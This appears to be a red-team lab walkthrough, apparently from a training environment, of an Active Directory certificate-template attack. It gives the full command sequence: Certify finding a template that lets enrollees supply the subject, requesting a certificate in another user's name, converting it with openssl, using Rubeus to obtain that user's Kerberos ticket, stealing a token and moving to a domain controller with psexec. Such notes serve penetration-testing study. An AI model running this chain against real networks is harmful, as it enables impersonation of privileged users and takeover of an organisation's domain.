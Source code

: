 # Finding vulnerable certificates

We look for Client Authentication, ENROLLEE_SUPPLIES_SUBJECT, and DEV\Domain Users

```bash
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable

   CA Name                               : dc-2.dev.cyberbotic.io\sub-ca
   Template Name                         : CustomUser
   ...
   msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
   ...
   pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
   mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
   Permissions
      Enrollment Permissions
         Enrollment Rights           : CYBER\Domain Admins           S-1-5-21-2594061375-675613155-814674916-512
                                      CYBER\Domain Users            S-1-5-21-2594061375-675613155-814674916-513
                                      CYBER\Enterprise Admins       S-1-5-21-2594061375-675613155-814674916-519
                                      DEV\Domain Users              S-1-5-21-569305411-121244042-2357301523-513
```

---

# Request a certificate for another user

```bash
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:nlamb
```

---

# Copy the certificate to convert it to pfx extension

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
# We need to add a password, anything is OK but we need to remember, in this case pass123
```

---

# Get base64 version of certificate

```bash
cat cert.pfx | base64 -w 0
```

---

# Use the base64 value to ask for a tgt for that user

```bash
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIIM7w[...]ECAggA /password:pass123 /nowrap
```

---

# Create a session and steal token

```bash
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:pass123 /ticket:doIFwj[...]MuSU8=
steal_token 1234
jump psexec64 dc-2.dev.cyberbotic.io smb
```

